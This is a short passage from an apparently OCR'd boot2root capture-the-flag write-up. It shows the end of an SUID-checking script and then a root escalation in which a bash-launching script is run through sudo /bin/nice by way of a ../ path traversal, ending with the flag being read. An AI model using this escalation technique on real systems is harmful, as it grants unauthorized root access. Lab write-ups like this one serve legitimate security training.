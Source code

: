            echo "$line is a potentially dangerous binary with SUID permission"

        fi

    done

done <<< "$file_list"

Tangent completed

  

Ok so since nice had sudo privileges as long as it was run from notes then the script to open up a bash shell was ran via nice at the notes directory then traversed to point top the webadmin home directory

  

webadmin@serv:~$ echo "/bin/bash" >> root.sh

webadmin@serv:~$ chmod +x root.sh

webadmin@serv:~$ sudo /bin/nice /notes/../home/webadmin/root.sh 

[sudo] password for webadmin: 

root@serv:/home/webadmin# whoami

root

root@serv:/home/webadmin# cd ~

root@serv:~# ls

proof.txt  root.txt  snap

root@serv:~# cat proof.txt 

24d0418268f96bf641244a5180bc0a6d

root@serv:~# 

Boot2Root
